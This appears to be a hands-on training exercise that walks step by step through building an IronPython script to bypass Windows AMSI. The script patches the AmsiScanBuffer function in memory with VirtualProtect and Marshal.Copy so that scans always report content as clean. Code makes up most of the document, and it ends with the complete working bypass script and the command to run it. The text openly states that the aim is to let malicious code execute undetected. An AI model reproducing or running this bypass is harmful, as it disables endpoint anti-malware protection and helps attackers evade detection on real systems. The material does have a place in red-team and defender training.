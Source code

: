 # Exercise 6: AMSI Bypass with IronPython
This exercise aims to build a script using IronPython to bypass the Anti-Malware Scan Interface (AMSI). AMSI is an open interface available on Windows 10 for applications to request, at runtime, a synchronous scan of a memory buffer by an installed antivirus or security solution. The script patches a specific method of the AMSI's DLL loaded in memory, therefore allowing malicious code to execute without detection.

The script utilizes functionalities provided by the ctypes library in IronPython, which provides C compatible data types and allows to call functions in DLLs/shared libraries.

1. First lets test that AMSI is working on the machine. Type `amsicontext` into the existing terminal
2. You should see a maliware blocked error that looks like this

```powershell
At line:1 char:1
+ amsicontext
+ ~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

3. Now let's write the bypass, by first creating another python file called powershell_amsi_bypass.py similiar to Exercise 5
4. Start by importing the required modules. `clr`` allows IronPython to interface with .NET and System provides access to core .NET functionalities. os is a Python library for interacting with the Operating System.

```python
import clr
import System
import os
```

5. Load the System.Management.Automation .NET library. System.Management.Automation provides access to the PowerShell runtime. Runspaces enables creating and managing PowerShell runspaces, which are containers that host PowerShell pipelines.

```python
clr.AddReference("System.Management.Automation")
from System.Management.Automation import Runspaces
```

6. Import additional required modules and functions. These imports include both Python and .NET classes and functions used throughout the script. Notable ones are ctypes (provides C compatible data types in Python), IntPtr and UInt32 (.NET data types), and Marshal (.NET class for marshaling data between managed and unmanaged code).

```python
import clrtype
from ctypes import *
import ctypes
from System import Convert, Text, Environment, IntPtr, UInt32
from System.Management.Automation import Runspaces, RunspaceInvoke
from System.Runtime.InteropServices import DllImportAttribute, PreserveSigAttribute, Marshal, HandleRef, CharSet
```

7. Define the bypass function. This function starts by loading amsi.dll into the application's memory space using LoadLibrary.

```python
def bypass():
    windll.LoadLibrary("amsi.dll")
```

8. Get the handle of amsi.dll. Here, the script retrieves a module handle for amsi.dll, which is necessary to later get the address of the function to patch.

```python
windll.kernel32.GetModuleHandleW.argtypes = [c_wchar_p]
windll.kernel32.GetModuleHandleW.restype = c_void_p
handle = windll.kernel32.GetModuleHandleW('amsi.dll')
```

9. Retrieve the address of the AmsiScanBuffer function within amsi.dll. GetProcAddress retrieves the address of the AmsiScanBuffer function in memory, which is the function we will patch to bypass AMSI.
```python
windll.kernel32.GetProcAddress.argtypes = [c_void_p, c_char_p]
windll.kernel32.GetProcAddress.restype = c_void_p
BufferAddress = windll.kernel32.GetProcAddress(handle, "AmsiScanBuffer")
```

10. Change the memory protection of the AmsiScanBuffer function to PAGE_EXECUTE_READWRITE (0x40). VirtualProtect changes the protection on a region of committed pages in the virtual address space of the calling process.

```python
BufferAddress = IntPtr(BufferAddress)
Size = System.UInt32(0x05)
ProtectFlag = System.UInt32(0x40)
OldProtectFlag = Marshal.AllocHGlobal(0)
virt_prot = windll.kernel32.VirtualProtect(BufferAddress, Size, ProtectFlag, OldProtectFlag)
```

11. Write a patch to the start of the AmsiScanBuffer function. The script patches AmsiScanBuffer to always return S_OK, causing AMSI to believe the scanned content is safe.

```python
patch = System.Array[System.Byte]((System.UInt32(0xB8), System.UInt32(0x57), System.UInt32(0x00), System.UInt32(0x07), System.UInt32(0x80), System.UInt32(0xC3)))
Marshal.Copy(patch, 0, BufferAddress, 6)
```

12. Define the main function to run the bypass and execute a PowerShell script.After bypassing AMSI, the script opens a PowerShell runspace, executes the PowerShell command 'amsicontext', and prints the output.

```python
def main():
    bypass()
    runspace = Runspaces.RunspaceFactory.CreateRunspace()
    runspace.Open()
    scriptInvoker = RunspaceInvoke(runspace)
    pipeline = runspace.CreatePipeline()
    pipeline.Commands.AddScript(r"'amsicontext'")
    pipeline.Commands.Add("Out-String")
    output = pipeline.Invoke()
    for o in output:
        print(o)
    runspace.Close()
```

13. Run the main function if the script is being run as a standalone program. The if __name__ == '__main__': Python idiom is used to ensure the main function is only run when the script is executed directly (not imported as a module).

```python
if __name__ == '__main__':
    main()
```

14. The script should look like the code below.

```python
import clr
import System
import os

clr.AddReference("System.Management.Automation")
from System.Management.Automation import Runspaces
from ctypes import *
import ctypes
from System import Convert, Text, Environment, IntPtr, UInt32
from System.Management.Automation import Runspaces, RunspaceInvoke
from System.Runtime.InteropServices import DllImportAttribute, PreserveSigAttribute, Marshal, HandleRef, CharSet

def bypass():
    windll.LoadLibrary("amsi.dll")
    windll.kernel32.GetModuleHandleW.argtypes = [c_wchar_p]
    windll.kernel32.GetModuleHandleW.restype = c_void_p
    handle = windll.kernel32.GetModuleHandleW('amsi.dll')
    windll.kernel32.GetProcAddress.argtypes = [c_void_p, c_char_p]
    windll.kernel32.GetProcAddress.restype = c_void_p
    BufferAddress = windll.kernel32.GetProcAddress(handle, "AmsiScanBuffer")
    BufferAddress = IntPtr(BufferAddress)
    Size = System.UInt32(0x05)
    ProtectFlag = System.UInt32(0x40)
    OldProtectFlag = Marshal.AllocHGlobal(0)
    virt_prot = windll.kernel32.VirtualProtect(BufferAddress, Size, ProtectFlag, OldProtectFlag)
    patch = System.Array[System.Byte]((System.UInt32(0xB8), System.UInt32(0x57), System.UInt32(0x00), System.UInt32(0x07), System.UInt32(0x80), System.UInt32(0xC3)))
    Marshal.Copy(patch, 0, BufferAddress, 6)

def main():
    bypass()
    runspace = Runspaces.RunspaceFactory.CreateRunspace()
    runspace.Open()
    scriptInvoker = RunspaceInvoke(runspace)
    pipeline = runspace.CreatePipeline()
    pipeline.Commands.AddScript(r"'amsicontext'")
    pipeline.Commands.Add("Out-String")
    output = pipeline.Invoke()
    for o in output:
        print(o)
    runspace.Close()

if __name__ == '__main__':
    main()
```

15. Execute the IronPython code using the following command in the terminal

```
.\ipy.exe powershell_amsi_bypass.py
```

16. If successful, you should see the output below

```powershell
amsicontext
```